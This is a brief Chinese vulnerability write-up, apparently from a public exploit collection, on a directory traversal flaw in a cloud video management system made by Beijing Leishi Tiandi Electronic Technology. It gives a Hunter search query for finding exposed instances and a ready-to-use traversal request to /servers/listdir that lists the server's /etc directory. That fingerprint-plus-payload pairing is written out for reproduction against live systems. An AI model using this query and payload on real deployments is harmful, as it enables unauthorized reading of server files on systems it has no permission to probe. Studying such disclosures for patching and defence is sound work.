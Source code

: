 # 北京雷石天地电子技术有限公司云视频管理系统存在目录遍历漏洞

# 一、漏洞简介
北京雷石天地电子技术有限公司是一家从事现代宽带技术领域和信息家电领域中嵌入式系统软件的研究与开发应用的公司。 北京雷石天地电子技术有限公司云视频管理系统存在目录遍历漏洞，攻击者可利用该漏洞获取敏感信息。

# 二、影响版本
+ 云视频管理系统

# 三、资产测绘
+ hunter`web.body="/mediaimport/getIsAddData"`
+ 特征

![1703061796364-b7ca13da-00a7-4258-b1bc-3ed6412512f1.png](./img/8yIVQ8yg93MZfzTM/1703061796364-b7ca13da-00a7-4258-b1bc-3ed6412512f1-706309.png)

# 四、漏洞复现
```java
/servers/listdir?path=../../../../../../etc
```

![1703061827191-4bf747a7-ebef-4269-9eb8-6e5eb326c5a6.png](./img/8yIVQ8yg93MZfzTM/1703061827191-4bf747a7-ebef-4269-9eb8-6e5eb326c5a6-211600.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zy632nmy8tt4g795>